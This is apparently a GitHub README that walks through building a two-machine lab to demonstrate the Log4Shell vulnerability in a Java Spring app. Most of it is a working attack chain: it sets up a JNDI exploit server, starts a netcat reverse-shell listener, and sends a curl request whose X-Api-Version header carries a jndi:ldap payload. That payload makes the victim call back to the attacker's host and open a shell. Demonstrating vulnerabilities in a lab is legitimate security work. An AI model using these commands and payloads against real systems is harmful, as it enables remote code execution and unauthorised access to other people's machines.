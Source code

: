 # log4shell-demo-lab
These are instructions for setting up a minimal lab to demonstrate the log4shell exploit. 
We are going to use two virtual machines.  These instructions were tested with Ubuntu 
18.04 LTS, but should work on newer versions.

## Preparing the Victim Machine

Install OpenJDK 8
```
sudo apt install -y openjdk-8-jdk
```

For the vulnerable app we are going to use a most excellent application 
forked from **christophetd/log4shell-vulnerable-app** with a very 
minor addition.

```
git clone https://github.com/ColorTokens-Labs/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
./gradlew assemble
```

The **gradlew** command will download a bunch of stuff, just let it finish.

You are now ready to launch the vulnerable application.  I am launching this
as the user **www-data** because that's what web applications usually run as.

```
export JAVA_TOOL_OPTIONS="-Dcom.sun.jndi.ldap.object.trustURLCodebase=true"
sudo --preserve-env=JAVA_TOOL_OPTIONS -u www-data java -jar build/libs/log4shell-vulnerable-app-0.0.1-SNAPSHOT.jar
```

If all has gone well, your screen should look like this:

![Spring App on the Victim Machine](docs/images/spring-app-on-victim.png)

## Preparing the Attacker's System

Install OpenJDK and Maven.

```
sudo apt install -y openjdk-8-jdk maven
```

We are using a JNDI Exploit server forked from **zzwlpx/JNDIExploit**.  Get it
from this github and build it.

```
git clone https://github.com/ColorTokens-Labs/JNDIExploit.git
cd JNDIExploit
mvn package
```

Now run the JNDI server.

```
java -jar target/JNDIExploit-1.0-SNAPSHOT.jar -i <Attacker VM IP (this machine)>
```

Your screen should look like this:

![JNDI server on the attacker's machine](docs/images/JNDI-on-C2C-server.png)

This completes the setup of the attacker and victim systems.

## Executing the exploit

With the vulnerable application running on the victim machine, and the JNDI exploit
server running on the attacker's machine, open two new session windows to the attacker's machine.

On first window, run the following command to listen for inbound reverse shell 
connections.  We are using port tcp/12345.  The **while** loop simply resrtarts the listener
when you are done with an interactive reverse shell session.

```
while [ true ]; do nc -nvlp 12345; done
```

On the second window, we will initiate the HTTP request that triggers the Log4shell exploit.
For convenience create variables for the IP addresses:

```
export my_ip=<Attacker VM IP (this machine)>
export victim_ip=<Victim VM IP>
```

You can now generate the HTTP request using this line as-is:

```
curl ${victim_ip}:8080 -H 'X-Api-Version: ${jndi:ldap://'"${my_ip}"':1389/Basic/ReverseShell/'"${my_ip}"'/12345}'
```

Congratulations! You should have received a shell to the Victim's machine on the first window.  
This is a basic shell without much stabilization.  Type **exit** when finished, and you will be
able to initiate the HTTP request again for another shell.

## Defending against the exploit

For instructions on defending against this with Xshield and Xprotect please 
[contact me](mailto:venky.raju@colortokens.com).
